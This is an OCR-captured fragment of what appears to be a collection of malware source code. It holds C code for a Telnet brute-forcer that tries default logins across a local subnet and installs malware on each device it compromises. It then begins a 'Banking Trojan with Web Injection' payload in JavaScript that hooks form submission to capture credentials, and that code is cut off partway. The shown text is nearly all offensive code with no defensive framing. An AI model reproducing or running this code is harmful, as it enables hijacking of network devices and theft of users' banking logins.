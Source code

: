 ```c
    {NULL, NULL}
};

// Telnet brute force function
int telnet_brute_force(char *target_ip) {
    int sock;
    struct sockaddr_in server;
    char buffer[1024];
    
    for (int i = 0; default_logins[i].username != NULL; i++) {
        sock = socket(AF_INET, SOCK_STREAM, 0);
        server.sin_addr.s_addr = inet_addr(target_ip);
        server.sin_family = AF_INET;
        server.sin_port = htons(23);
        
        if (connect(sock, (struct sockaddr *)&server, sizeof(server)) == 0) {
            // Send login credentials
            snprintf(buffer, sizeof(buffer), "%s\n%s\n", 
                    default_logins[i].username, 
                    default_logins[i].password);
            send(sock, buffer, strlen(buffer), 0);
            
            // Check response
            recv(sock, buffer, sizeof(buffer), 0);
            if (strstr(buffer, "#") || strstr(buffer, "$")) {
                printf("Login successful: %s:%s\n", 
                       default_logins[i].username, 
                       default_logins[i].password);
                close(sock);
                return 1;
            }
        }
        close(sock);
    }
    return 0;
}

// Network scanning function
void scan_network() {
    for (int i = 1; i < 255; i++) {
        char ip[16];
        snprintf(ip, sizeof(ip), "192.168.1.%d", i);
        if (telnet_brute_force(ip)) {
            // Install malware on compromised device
            install_malware(ip);
        }
    }
}
```

### 5. Banking Trojan with Web Injection
```javascript
// Browser injection payload
(function() {
    // Hook form submission
    var originalSubmit = HTMLFormElement.prototype.submit;
    HTMLFormElement.prototype.submit = function() {
        // Capture form data
        var formData = new FormData(this);
        var credentials = {};
        
        for (var pair of formData.entries()) {
            credentials[pair[0]] = pair[1];
```